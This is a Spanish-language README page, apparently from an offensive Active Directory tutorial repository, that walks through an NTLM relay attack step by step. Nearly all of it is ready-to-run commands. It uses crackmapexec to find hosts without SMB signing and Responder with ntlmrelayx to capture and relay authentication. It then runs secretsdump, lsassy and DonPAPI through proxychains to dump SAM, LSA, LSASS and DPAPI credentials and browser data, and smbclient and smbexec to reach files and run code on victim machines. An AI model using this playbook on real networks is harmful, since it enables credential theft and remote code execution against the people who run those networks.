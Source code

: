 # Capturar credenciales NTLM y redirigirlas

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/files/vid.gif?raw=true "Relay list")

```Bash
# Deshabilitar las opciones SMB y HTTP de Responder y ejecutarlo
sudo python responder.py -I <Interfaz de red>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/files/vid2.gif?raw=true "Deshabilitar SMB y HHTP Ejecutar responder y ntlmrelayx")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/files/vid3.gif?raw=true "Capturar autenticaciones y guardarlas en socks")

```Bash
# Primero modificar el puerto de la última línea de proxychains para que quede asi:
socks4  127.0.0.1 1080
# Redirigir la autenticación obtenida con tlmrelayx con proxychains pudiendo realizar diversas acciones, como por ejemplo

# Obtener SAM y LSA de los equipos víctima
proxychains impacket-secretsdump -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
# Obtener LSASS de los equipos víctima
proxychains lsassy --no-pass -d <dominio> -u <usuario> <ip víctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/files/vid4.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 1")

# Redirigir las credenciales

```Bash
# Instalar DonPAPI con desde su github con poetry: https://github.com/login-securite/DonPAPI
# Obtener dpapi de los equipos víctima y otras como  files, browser, schedule tasks,…
proxychains poetry run DonPAPI -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/files/vid5.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 2")


```Bash
# Obtener acceso a las carpetas del equipo
proxychains impacket-smbclient -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/files/vid6.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 3")

```Bash
# Obtener ejecución de código
proxychains impacket-smbexec -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/files/vid7.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 4")

